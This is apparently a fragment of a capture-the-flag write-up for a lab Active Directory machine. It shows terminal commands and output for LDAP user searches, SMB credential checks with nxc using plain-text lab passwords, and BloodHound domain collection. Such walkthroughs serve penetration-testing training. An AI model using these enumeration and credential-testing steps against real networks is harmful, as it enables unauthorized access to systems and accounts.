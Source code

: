 

```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "DC=absolute,DC=htb" "(&(objectClass=user)(cn=*love*))"
SASL/GSSAPI authentication started
SASL username: svc_smb@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <DC=absolute,DC=htb> with scope subtree
# filter: (&(objectClass=user)(cn=*love*))
# requesting: ALL
#

# m.lovegod, Users, absolute.htb
dn: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: m.lovegod
```



```bash
❯ nxc smb 10.10.11.181 -u 'm.lovegod' -p 'AbsoluteLDAP2022!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\m.lovegod:AbsoluteLDAP2022! STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb 10.10.11.181 -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022! 
```



```bash
❯ bloodhound-python -c All -ns 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --auth-method kerberos -d absolute.htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: absolute.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Done in 00M 13S
INFO: Compressing output into 20250122021922_bloodhound.zip

```
